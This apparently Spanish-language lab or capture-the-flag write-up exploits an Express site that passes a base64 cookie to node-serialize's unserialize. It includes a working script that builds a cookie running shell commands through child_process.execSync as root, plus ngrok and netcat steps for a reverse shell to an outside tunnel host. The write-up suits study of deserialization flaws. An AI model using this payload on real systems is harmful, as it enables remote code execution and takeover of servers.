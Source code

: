 # Ejercicio 2

Cuando ingresamos al sitio, nos encontramos con una imagen y un simple texto:
> The site is not yet complete, Come Back Later! 

Pero una vez que recargamos la pagina, esta vez vemos:
```
SyntaxError: Unexpected token F in JSON at position 79
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/under/node_modules/`node-serialize`/lib/serialize.js:62:16)
    at /under/server.js:12:29
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at next (/under/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/under/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/under/node_modules/express/lib/router/layer.js:95:5)
    at /under/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/under/node_modules/express/lib/router/index.js:335:12)
    at next (/under/node_modules/express/lib/router/index.js:275:10)
```

Pareciera ser que a la pagina le estamos mandando algo la segunda vez que entramos... Quizas una cookie?

Interceptando la request con un proxy, podemos leer
```
Cookie: profile=eyJ1c2VybmFtZSI6IkFkbWluIiwiY3NyZnRva2VuIjoidTMydDRvM3RiM2dnNDMxZnMzNGdnZGdjaGp3bnphMGw9IiwiRXhwaXJlcz0iOkZyaWRheSwgMTMgT2N0IDIwMTggMDA6MDA6MDAgR01UIn0%3D
```

El prefijo 'ey' me suena de '{' en base64, y ademas vemos la presencia de un %3D que pareciera indicar que esta url-encoded.

Asi que pasandolo por url-decode + base64 en cyber chef obtenemos:
```
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}
```

Ahora entendemos el stack trace. Justamente este JSON esta mal hecho, deberia decir `"Expires=": "Friday ..."`, pero dice `"Expires=" : Friday ... "` (falta una comilla)

Agregando la comilla y encodeando en orden inverso para mandarselo por el proxy, la pagina ahora nos saluda:
> Hello Admin

Esto es peligroso, ya que esta tomando nuestro `user` como el valor de la cookie, la cual esta solo encodeada en b64. Esto no es peligroso en esta pagina, pero si hiciese algun tipo de consulta/cambios en el sistema dado el user, seria peligroso.

Ademas, tampoco se chequea el campo `Expires=` del token, ya que lo deje con la misma fecha (2018).

De igual manera, volviendo al stack trace, nos podemos dar cuenta de varias cosas importantes, una de ellas, es que la tecnología que usa este sitio es `express`, un framework de `node.js`, y la segunda, es que se esta usando la libreria `node-serialize`, la cual posee un bug conocido en la funcion `unserialize`. Podemos serializar una llamada a una funcion (recordando que las funciones en JS son objetos, asi que es posible), usando la misma `serialize` del paquete `node-serialize`.

Entonces lo que se nos ocurrio, dado que el servidor nos retorna el valor de la entrada `username`, fue inyectar codigo en esa entrada

Para esto, hicimos un script que nos auto-encodee una cookie con una funcion en la entrada `username`

```
const command = 'ls -lha /'

const payload = {
    'csrftoken': 'u32t4o3tb3gg431fs34ggdgchjwnza0l=',
    'Expires=': 'Tuesday, 13 Oct 2020 00: 00: 00 GMT',
    'username': function () {
        return require('child_process').execSync(command).toString();
    }
};

const serialize = require('node-serialize');

let res = serialize.serialize(payload);

res = res.slice(0, -2) + '()' + res.slice(-2); // to make it call itself

console.log('Result\n');
// serialize.unserialize(res);
console.log('Serialized: ' + res);
console.log('Cookie: ' + encodeURIComponent(Buffer.from(res).toString('base64')));
```

Corriendo varios comandos con esta tecnica, vimos que el usuario activo es `root`, que hay keys autorizadas para conectarse por ssh. O sea que podemos hacer de todo, hasta borrar archivos muajaja.

Así que intentamos hacer una conexion reversa con `netcat`, pero como `netcat` no estaba instalado en el sistema, buscamos otros métodos, como ssh/generar keys para poder entrar. Finalmente tuvimos la idea de directamente conectarnos por nodejs.

Para esto había que abrir puertos, pero abrir puertos desde la terminal es un bardo, porque hay que configurar el router. Entonces encontramos una herramienta llamada ngrok, que nos permite redirigir una conección tcp a traves de internet.

Con [ngrok](https://ngrok.com/), podemos crear tuneles y forwardear cualquier tipo de conección (tcp, http, etc.) a un puerto que elijamos. Entonces, por ejemplo, corriendo `./ngrok tcp 4445` (donde ngrok es el ejecutable que nos descargamos desde la página), la terminal nos devuelve:

```
ngrok by @inconshreveable                                                                                  (Ctrl+C to quit)
                                                                                                                           
Session Status                online                                                                                       
Account                       octaviopercivaldi2@gmail.com (Plan: Free)                                                    
Version                       2.3.35                                                                                       
Region                        United States (us)                                                                           
Web Interface                 http://127.0.0.1:4040                                                                        
Forwarding                    tcp://2.tcp.ngrok.io:16170 -> localhost:4445
```

Entonces, con esta información, podemos abrir otra terminal, y correr:

```nc -nlvp 4445```

Y con esto, vamos a estar escuchando todo lo que se envíe a la dirección `2.tcp.ngrok.io` y puerto `16170`.

Finalmente, agregando la ip y el puerto que nos devuelve ngrok al script crack_sh.js, el cual nos genera la cookie, podemos enviarla, y el servidor se va a conectar a nuestra terminal (la cual corrimos el comando nc), y... * se pone la capucha * WE'RE IN!!!

Ahora tenemos una terminal conectada al servidor, y por lo tanto tenemos permisos para crear, leer y eliminar archivos, ya que somos root.

